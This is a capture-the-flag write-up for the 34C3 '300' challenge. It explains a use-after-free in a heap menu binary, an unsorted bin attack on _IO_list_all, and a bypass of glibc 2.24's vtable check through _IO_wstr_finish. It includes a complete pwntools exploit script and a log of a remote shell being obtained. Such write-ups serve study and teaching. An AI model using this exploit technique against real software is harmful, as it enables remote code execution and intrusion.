



**Points:** 264
**Solves:** 13
**Category:** Exploitation 

> [300](../binaries/300)

> [libc-2.24.so](../binaries/libc-2.24.so)


300: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5f43b102f0fe3f3dd770637f1d244384f6b2a1c9, not stripped



gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL


## Reversing
The binary is a menu-driven program that allows users to alloc chunks and place them into 1 of initially 10 available slots.
As we can see, only chunks of size `0x300` are allocated.

.text:00005555555549D5                 mov     edi, 300h       ; size
.text:00005555555549DA                 call    malloc


When a chunk is allocated, the program asks the user to specify a slot from 0-9, which is used as an index into the `allocs` global, to which, a pointer to the chunk is written.


gdb-peda$ x/10xg &allocs
0x555555756040 <allocs>:        0x0000555555757010      0x0000555555757320
0x555555756050 <allocs+16>:     0x0000555555757630      0x0000555555757940
0x555555756060 <allocs+32>:     0x0000555555757010      0x0000555555757630
0x555555756070 <allocs+48>:     0x0000555555757c50      0x0000555555757630
0x555555756080 <allocs+64>:     0x0000000000000000      0x0000000000000000


The user is also able to write to these chunks, print them, and free them.


1) alloc
2) write
3) print
4) free


The binary uses the `read()` and `write()` syscalls calls directly throughout the program, so `_IO_2_1_stdin_` and `_IO_2_1_stdout_` are not used.

There are several vulnerabilities in the program in the `free_it()` function.
When a chunk is freed, its content is not zero'd out, and a pointer to the chunk is not zero'd out in the `allocs` global. 


.text:0000555555554A63                 public free_it
.text:0000555555554A63 free_it         proc near               ; CODE XREF: main+9E↓p
.text:0000555555554A63
.text:0000555555554A63 var_4           = dword ptr -4
.text:0000555555554A63
.text:0000555555554A63 ; __unwind {
.text:0000555555554A63                 push    rbp
.text:0000555555554A64                 mov     rbp, rsp
.text:0000555555554A67                 sub     rsp, 10h
.text:0000555555554A6B                 mov     [rbp+var_4], edi
.text:0000555555554A6E                 mov     eax, [rbp+var_4]
.text:0000555555554A71                 cdqe
.text:0000555555554A73                 lea     rdx, ds:0[rax*8]
.text:0000555555554A7B                 lea     rax, allocs
.text:0000555555554A82                 mov     rax, [rdx+rax]
.text:0000555555554A86                 mov     rdi, rax        ; ptr
.text:0000555555554A89                 call    free
.text:0000555555554A8E                 nop
.text:0000555555554A8F                 leave
.text:0000555555554A90                 retn
.text:0000555555554A90 ; } // starts at 555555554A63
.text:0000555555554A90 free_it         endp


Additionally, when a chunk is written to, there is no check to see whether the chunk is currently allocated, allowing us to write into freed chunks.

We can use these vulnerabilites to leak a libc and heap address, and to also perform an unsorted bin attack.

## Infoleak
Getting an infoleak for this binary is fairly trivial given the aforementioned vulnerabilities.
We can leak both a heap and libc pointer by doing the following: 
	
1. allocating 4 smallbin sized chunks
1. freeing the 1st and 3rd chunk we allocate
1. printing out and parsing the resulting pointers contained within the chunks 

## Crafting a "ghost" chunk
From here, we can perform an **unsorted bin attack**, since we can only allocate small chunks, but are able to write into free chunks.
What is a good target to overwrite using this attack, though?

Usually, a good target would be `IO_list_all`, but since we can only allocate chunks of size `0x300`, we can't remove a chunk from the unsorted bin and place it into `smallbin[4]` where it would be positioned to serve as the new `IO_list_all->_chain` pointer. Or can we?

**As it turns out, we can actually craft a fake "ghost" chunk of size `0x61`, place it in the unsorted bin, and remove it from the unsorted bin so that it is placed it into smallbin[4], where it would be treated as the `IO_list_all->_chain` pointer to an `_IO_FILE_plus` object.**

To do this, we need to use our ability to write into freed chunks to overwrite `unsorted_bin->TAIL->BK` with the address of our "ghost" chunk.

Doing this will trick the memory allocator into thinking there is an extra chunk in the unsorted_bin when there actually isn't.

Then, after a `malloc(0x300)` call, our `unsorted_bin->TAIL` chunk will be able to satisfy the request and be removed from the unsorted bin. At the same time, the memory allocator will set what it thinks is the previous unsorted bin chunk as the new `unsorted_bin->TAIL`. **However, since we've overwritten `unsorted_bin->TAIL->BK` with the address of our "ghost" chunk, this means the new `unsorted_bin->TAIL` will actually now point to our "ghost" chunk.** 

After another `malloc(0x300)` call, our "ghost" chunk will actually be removed from the unsorted bin and placed in smallbin[4], since it is too small to satisfy the allocation request. This is exactly where we want a pointer to our "ghost" chunk to reside. Why? Because now we can perform an unsorted bin attack to overwrite `IO_list_all` with `&main_arena.top`, positioning smallbin[4] in same location where `IO_list_all->_chain` will reside.   


gdb-peda$ heapinfoall
==================  Main Arena  ==================
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x555555757f50 (size : 0x200b0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x555555757620 (doubly linked list corruption 0x555555757620 != 0x7ffff7dd1b58 and 0x555555757620 is broken)
(0x060)  smallbin[ 4]: 0x555555757950   <-- chunk we control 


Now that we know how to overwrite `IO_list_all->_chain` with a pointer to a chunk whose contents we control, we can proceed with crafting the actual contents of this chunk.

Normally, we would craft this fake `_IO_FILE_plus` object so that the `vtable` member would point to a fake vtable that we control, but starting from **glibc 2.24**, we can no longer do this due to an additional call to `_IO_vtable_check()` where the `_IO_FILE_plus->vtable` pointer is validated.


/* Perform vtable pointer validation.  If validation fails, terminate
   the process.  */
static inline const struct _IO_jump_t *
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;
  uintptr_t offset = ptr - __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}


As we can see from the above snippet, the vtable pointer must be within the `__libc_IO_vtables` range, or it will eventually trigger a `glibc detected an invalid stdio handle` fatal error in `_IO_vtable_check()`.


gdb-peda$ p &__start___libc_IO_vtables
$8 = (const char (*)[]) 0x7ffff7dcd8c0 <_IO_helper_jumps>
gdb-peda$ p &__stop___libc_IO_vtables
$9 = (const char (*)[]) 0x7ffff7dce628


So, our vtable must lay somewhere between `0x7ffff7dcd8c0` and `0x7ffff7dce628`, preventing us from simply using a heap chunk we control as the vtable pointer. 

So given this, is there any way to bypass this check to get RCE still? 

## Bypassing _IO_vtable_check
Fortunately, there is a nice vtable we can use that exists in this valid vtable range. 


gdb-peda$ p _IO_wstr_finish
$11 = {void (_IO_FILE *, int)} 0x7ffff7a848e0 <_IO_wstr_finish>
gdb-peda$ find 0x7ffff7a848e0 all
Searching for '0x7ffff7a848e0' in: all ranges
Found 2 results, display max 2 items:
libc : 0x7ffff7dcdbd0 --> 0x7ffff7a848e0 (<_IO_wstr_finish>:    push   rbx)
libc : 0x7ffff7dcdc90 --> 0x7ffff7a848e0 (<_IO_wstr_finish>:    push   rbx)
gdb-peda$ telescope 0x7ffff7dcdc90-0x18 20
0000| 0x7ffff7dcdc78 --> 0x0 
0008| 0x7ffff7dcdc80 --> 0x0 
0016| 0x7ffff7dcdc88 --> 0x0 
0024| 0x7ffff7dcdc90 --> 0x7ffff7a848e0 (<_IO_wstr_finish>:     push   rbx)
0032| 0x7ffff7dcdc98 --> 0x7ffff7a846e0 (<_IO_wstr_overflow>:   mov    edx,DWORD PTR [rdi])
0040| 0x7ffff7dcdca0 --> 0x7ffff7a84680 (<_IO_wstr_underflow>:  mov    rax,QWORD PTR [rdi+0xa0])
0048| 0x7ffff7dcdca8 --> 0x7ffff7a833c0 (<__GI__IO_wdefault_uflow>:     push   rbp)
0056| 0x7ffff7dcdcb0 --> 0x7ffff7a848c0 (<_IO_wstr_pbackfail>:  test   BYTE PTR [rdi],0x8)
0064| 0x7ffff7dcdcb8 --> 0x7ffff7a83930 (<__GI__IO_wdefault_xsputn>:    test   rdx,rdx)
0072| 0x7ffff7dcdcc0 --> 0x7ffff7a83c10 (<__GI__IO_wdefault_xsgetn>:    push   r15)
0080| 0x7ffff7dcdcc8 --> 0x7ffff7a84bd0 (<_IO_wstr_seekoff>:    test   ecx,ecx)
0088| 0x7ffff7dcdcd0 --> 0x7ffff7a8de40 (<_IO_default_seekpos>: push   rbx)
0096| 0x7ffff7dcdcd8 --> 0x7ffff7a8dd10 (<_IO_default_setbuf>:  push   r13)
0104| 0x7ffff7dcdce0 --> 0x7ffff7a8e0c0 (<_IO_default_sync>:    xor    eax,eax)


**The reason why this particular address is such a good target, is because if we set our fake `_IO_FILE_plus->vtable` to `0x7ffff7dcdc78`, we will call `_IO_wstr_finish()` if `_IO_OVERFLOW(fp)` in `_IO_flush_all_lockp()` is called!**


int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;
  
  last_stamp = _IO_list_all_stamp;  
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
      run_fp = fp;
    
      // conditions to satisfy are as follows:
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF) // uses vtable. we want to call this!

      if (last_stamp != _IO_list_all_stamp)
	{
	  /* Something was added to the list.  Start all over again.  */
	  fp = (_IO_FILE *) _IO_list_all;
	  last_stamp = _IO_list_all_stamp;
	}
      else
	fp = fp->_chain; // get next _IO_FILE object to close 
    }
}


And what is so special about `_IO_wstr_finish()`, you ask?
Well, since we can control its first argument, `fp`, **we can also control the function pointer that it calls if some conditions are met:**

void _IO_wstr_finish (_IO_FILE *fp, int dummy){
  if (fp->_wide_data->_IO_buf_base && !(fp->_flags2 & _IO_FLAGS2_USER_WBUF))
    (((_IO_strfile *) fp)->_s._free_buffer) (fp->_wide_data->_IO_buf_base); //we can control this!
  fp->_wide_data->_IO_buf_base = NULL;

  _IO_wdefault_finish (fp, 0);
}


They key factor in this whole attack is being able to craft our `_IO_FILE_plus` object such that the conditions are met in `_IO_flush_all_lockp()` that are needed to call `_IO_OVERFLOW(fp)`, and such that the conditions are met in `_IO_wstr_finish(fp)` that are needed to call `(((_IO_strfile *) fp)->_s._free_buffer) (fp->_wide_data->_IO_buf_base);`.

**In `_IO_flush_all_lockp()`, the conditions we need to satisfy are:**

1. **fp->_mode <= 0**
1. **fp->_IO_write_ptr > fp->_IO_write_base**

**And in `_IO_wstr_finish()`, the conditions we need to satisfy are:**

1. **fp->_wide_data->_IO_buf_base**
1. **!(fp->_flags2 & _IO_FLAGS2_USER_WBUF)**

One trick to note is that when **fp->_wide_data->_IO_buf_base** is checked, `fp->_wide_data` is implicitly treated as a `_IO_wide_data` object, and **not as a `_IO_FILE` object.**  


struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001
  _IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data; <-- _IO_wide_data object!
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
# else
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;
# endif
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif
};


**Because of this,`fp->_wide_data->_IO_buf_base` will actually be located where `fp->write_end` is located, if we point `fp->_wide_data` back to `fp` itself, due to the lack of a `int flags` member in the `_IO_wide_data` struct.**

struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */



struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */


And if we craft our `_IO_file_plus` object such that `(((_IO_strfile *) fp)->_s._free_buffer)` contains `one_shot`, we should be able to get ourselves a shell. 

To put everything together, this is what our fake `_IO_FILE` object should look like:

So now, that we have a good idea of how we're going to gain control of RIP, we can proceed with the **unsorted bin attack** 

## Unsorted bin attack
To carry out the unsorted bin attack, we can simply free a chunk to place it in the unsorted bin, overwrite its `BK` ptr with `IO_list_all-0x10`, and then `malloc()` it out to overwrite `IO_list_all` with `&main_arena.top`. 


alloc(6)
free(5)

payload  = p64(0xb00bface)
payload += p64(IO_list_all-0x10) # target
write(5,payload)
alloc(7)


After this is done, we simply free a chunk twice to trigger a double-free error which will start the abort sequence and eventually call our **one_shot "magic" address**. 

Putting everything together, the following exploit will give us a shell.

## Exploit

#!/usr/bin/env python

from pwn import *
import sys

'''
1. leak libc + heap
2. craft a "ghost chunk that serves 2 purposes:
    - fake _IO_FILE object
    - fake _IO_strfile object
2a. craft the "ghost chunk" s.t.
    - size is 0x61 (to later place it in smallbin[4])
    - contains a fake "BK" ptr that points to real unsorted_bin chunk
    - conditions to eventually reach: (((_IO_strfile *) fp)->_s._free_buffer) (fp->_wide_data->_IO_buf_base); are satisfied
        1) fp->_mode <= 0
        2) fp->_IO_write_ptr > fp->_IO_write_base
        3) fp->_wide_data->_IO_buf_base
        4) !(fp->_flags2 & _IO_FLAGS2_USER_WBUF)
        5) (((_IO_strfile *) fp)->_s._free_buffer) = one_shot
3. place the "ghost" chunk in unsorted bin
    - overwrite unsorted_bin->TAIL->BK w/ pGhostChunk
    - allocate unsorted_bin->TAIL out of unsorted_bin
4. place the "ghost" chunk into smallbin[4]
    - size of "ghost" chunk must be 0x61
    - "ghost" chunk size fails to satisfy malloc(0x300)
5. perform unsorted bin attack to overwrite IO_list_all w/ &main_arena.top
    - now, IO_list_all->_chain = ghostChunk
6. perform a double-free to trigger memory corruption error and start abort sequence
7. if ghostChunk is forged correctly, following steps are performed:
    - _IO_flush_all_lockp() is called to traverse + close all the FD's
    - _IO_list_all->_chain, which now points to ghostChunk, is checked to close it
    - ghostChunk->vtable, which now points to pIO_wstr_finish-0x18, is used in an attempt to call _IO_OVERFLOW()
    - instead of calling _IO_OVERFLOW(), _IO_wstr_finish(ghostChunk) is called
    - (((_IO_strfile *) fp)->_s._free_buffer), which now points to one_shot, is called :)
8. win!
'''

def alloc(slot):
    r.sendafter("4) free","1")
    r.sendafter("9)",str(slot))

def write(slot, data):
    r.sendafter("4) free","2")
    r.sendafter("9)",str(slot))
    r.send(data)

def printIt(slot):
    r.sendafter("4) free","3")
    r.sendafter("9)",str(slot))
    return r.recvuntil("1)")

def free(slot):
    r.sendafter("4) free","4")
    r.sendafter("9)",str(slot))

def exploit(r):
    ## LIBC + HEAP LEAK
    alloc(0)
    alloc(1)
    alloc(2) ## target unsorted chunk
    alloc(3)

    free(0)
    free(2)
    write(2, "A")

    # remote
    libc_base = u64(printIt(0)[1:7].ljust(8,'\0'))-0x3c1b58
    heap_base = u64(printIt(2)[1:7].ljust(8,'\0'))-0x41
    stdin_buf_end = libc_base+0x3c1900
    stdout_buf_end = libc_base+0x3c2640
    dl_open_hook = libc_base+0x3c62e0

    stdout =libc_base+0x3c26e8
    stdin = libc_base+0x3c26f0
    IO_list_all = libc_base+0x3c2500
    p_IO_wstr_finish = libc_base+0x3bdc90 # PTR to _IO_wstr_finish
    
    one_shot = libc_base+0xcde41 

    p_top_chunk = libc_base+0x3c1b58

    ghost_chunk = heap_base+0x940+0x10 
    ghost_chunk_bk = heap_base+0x620 # fake BK ptr 

    log.success("libc_base at: "+hex(libc_base))
    log.success("heap_base at: "+hex(heap_base))
    log.success("_IO_list_all at: "+hex(IO_list_all))
    log.success("pIO_wstr_finish at: "+hex(p_IO_wstr_finish))
    log.success("one_shot at: "+hex(one_shot))

    ## CRAFT GHOST_CHUNK
    payload  = p64(0xb00bface)*2        
    payload += p64(0x0)            # start of fp/fake _IO_FILE_plus object
    payload += p64(0x61)
    payload += p64(0xb00bface)  
    payload += p64(ghost_chunk_bk) # needed so malloc can traverse unsorted_bin to get next victim chunk
    payload += p64(0x0)            # fp->_IO_write_base
    payload += p64(0xb00bface)     # fp->_IO_write_ptr 
    payload += p64(0xb00bface)     # fp->wide_data->buf_base
    payload += "A"*60
    payload += p64(0x0)            # fp->_flags2
    payload += "A"*36
    payload += p64(ghost_chunk)    # fp->_wide_data (need to cast this as: struct _IO_wide_data!)
    payload += "A"*24
    payload += p64(0x0)            # fp->_mode
    payload += "A"*16
    payload += p64(p_IO_wstr_finish-0x18) # fake vtable
    payload += "A"*8
    payload += p64(one_shot)       # ((_IO_strfile *) fp)->_s._free_buffer
    write(3, payload)
    log.success("ghostChunk crafted!")

    payload  = p64(0xb00bface)     
    payload += p64(ghost_chunk)    # unsorted_bin->TAIL->BK 
    write(0,payload)
  
    alloc(4) # put ghost_chunk in unsorted_bin->TAIL
    alloc(5) # put ghost_chunk in small_bins[4] 
    log.success("ghostChunk placed into small_bin[4]!")

    ## UNSORTED BIN ATTACK 
    alloc(6)
    free(5)

    payload  = p64(0xb00bface)
    payload += p64(IO_list_all-0x10) # target
    write(5,payload)
    alloc(7)
    log.success("unsorted bin attack succeeded!")
    
    ## TRIGGER ABORT SEQ
    log.info("triggering abort sequence...")
    print ""
    free(5)
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        #r = process(['/home/vagrant/CTFs/34c3ctf/300/300'], env={"LD_PRELOAD":"./libc.so.6"})
        r = process(['/home/vagrant/CTFs/34c3ctf/300/300'], env={"LD_PRELOAD":"./libc-2.24.so"})
        #r = process(['/home/vagrant/CTFs/34c3ctf/300/300'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)


➜  300 python solve.py 104.199.25.43 1337
[*] For remote: solve.py HOST PORT
[+] Opening connection to 104.199.25.43 on port 1337: Done
[+] libc_base at: 0x14918093c000
[+] heap_base at: 0x55c457a02000
[+] _IO_list_all at: 0x149180cfe500
[+] pIO_wstr_finish at: 0x149180cf9c90
[+] one_shot at: 0x149180a09e41
[+] ghostChunk crafted!
[+] ghostChunk placed into small_bin[4]!
[+] unsorted bin attack succeeded!
[*] triggering abort sequence...

[*] Switching to interactive mode

*** Error in `/home/user/chal': free(): corrupted unsorted chunks: 0x000055c457a02630 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x7908b)[0x1491809b508b]
/lib/x86_64-linux-gnu/libc.so.6(+0x82c3a)[0x1491809bec3a]
/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x1491809c2d2c]
/home/user/chal(+0xa8e)[0x55c456865a8e]
/home/user/chal(+0xb34)[0x55c456865b34]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf1)[0x14918095c3f1]
/home/user/chal(+0x7ba)[0x55c4568657ba]
======= Memory map: ========
14917c000000-14917c021000 rw-p 00000000 00:00 0 
14917c021000-149180000000 ---p 00000000 00:00 0 
149180725000-14918073b000 r-xp 00000000 08:09 521793                     /lib/x86_64-linux-gnu/libgcc_s.so.1
14918073b000-14918093a000 ---p 00016000 08:09 521793                     /lib/x86_64-linux-gnu/libgcc_s.so.1
14918093a000-14918093b000 r--p 00015000 08:09 521793                     /lib/x86_64-linux-gnu/libgcc_s.so.1
14918093b000-14918093c000 rw-p 00016000 08:09 521793                     /lib/x86_64-linux-gnu/libgcc_s.so.1
14918093c000-149180afa000 r-xp 00000000 08:09 521775                     /lib/x86_64-linux-gnu/libc-2.24.so
149180afa000-149180cf9000 ---p 001be000 08:09 521775                     /lib/x86_64-linux-gnu/libc-2.24.so
149180cf9000-149180cfd000 r--p 001bd000 08:09 521775                     /lib/x86_64-linux-gnu/libc-2.24.so
149180cfd000-149180cff000 rw-p 001c1000 08:09 521775                     /lib/x86_64-linux-gnu/libc-2.24.so
149180cff000-149180d03000 rw-p 00000000 00:00 0 
149180d03000-149180d29000 r-xp 00000000 08:09 521757                     /lib/x86_64-linux-gnu/ld-2.24.so
149180f20000-149180f22000 rw-p 00000000 00:00 0 
149180f24000-149180f28000 rw-p 00000000 00:00 0 
149180f28000-149180f29000 r--p 00025000 08:09 521757                     /lib/x86_64-linux-gnu/ld-2.24.so
149180f29000-149180f2a000 rw-p 00026000 08:09 521757                     /lib/x86_64-linux-gnu/ld-2.24.so
149180f2a000-149180f2b000 rw-p 00000000 00:00 0 
55c456865000-55c456866000 r-xp 00000000 08:09 35442692                   /home/user/chal
55c456a66000-55c456a67000 r--p 00001000 08:09 35442692                   /home/user/chal
55c456a67000-55c456a68000 rw-p 00002000 08:09 35442692                   /home/user/chal
55c457a02000-55c457a23000 rw-p 00000000 00:00 0                          [heap]
7ffd571cb000-7ffd571ec000 rw-p 00000000 00:00 0                          [stack]
7ffd571f3000-7ffd571f6000 r--p 00000000 00:00 0                          [vvar]
7ffd571f6000-7ffd571f8000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
$ id
uid=1337(user) gid=1337(user) groups=1337(user),0(root)
$ cd /home/user
$ ls
chal
flag
$ cat flag
34C3_but_does_your_exploit_work_on_1710_too
$  


